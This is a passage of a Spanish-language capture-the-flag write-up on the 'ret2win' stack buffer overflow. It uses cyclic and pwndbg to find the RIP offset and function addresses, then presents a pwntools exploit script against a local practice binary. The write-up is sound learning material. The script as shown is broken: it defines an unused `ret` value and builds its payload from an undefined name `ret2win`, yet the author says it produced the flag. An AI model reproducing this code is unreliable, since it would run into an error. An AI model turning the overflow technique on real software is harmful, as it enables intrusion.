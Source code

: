 Vemos como en el RSP tiene el valor de ```faaaaaaa``` asi que ahora con el comando ```cyclic -l faaaaaaa``` podemos saber el offset del RSP, y nos dio 40 (ese es el desplazamiento para llegar al RIP)

### Direccion de ret y ret2win

Para sacar la direccion de ```ret2win``` simplemente ponemos ```p ret2win``` y nos arroja:

```$1 = {<text variable, no debug info>} 0x400756 <ret2win>```

Y para la direccion de ```ret``` podemos usar la que nos indica el programa, o sacar un gadget con herramientas como ```Ropper```, pero me da flojera y usare la del programa que es ```0x400755```, y lo podemos ver en el pwndbg:

```► 0x400755 <pwnme+109>    ret    <0x6161616161616166>```

Con todo esto nuestro exploit queda asi:

```py
from pwn import *

proc = process("./ret2win")

buffer = b"A" * 32
rbp = b"B" * 8
ret = p64(0x400755)
rip = p64(0x400756) #direccion de ret2win

payload = buffer + rbp + rip + ret2win

proc.sendline(payload)
print(proc.recvall().decode())
```

Entonces lo ejecutamos y nos da la flag

![](/assets/img/commons/ret2win/pwn.png)

Eso ha sido todo, gracias por leer ❤
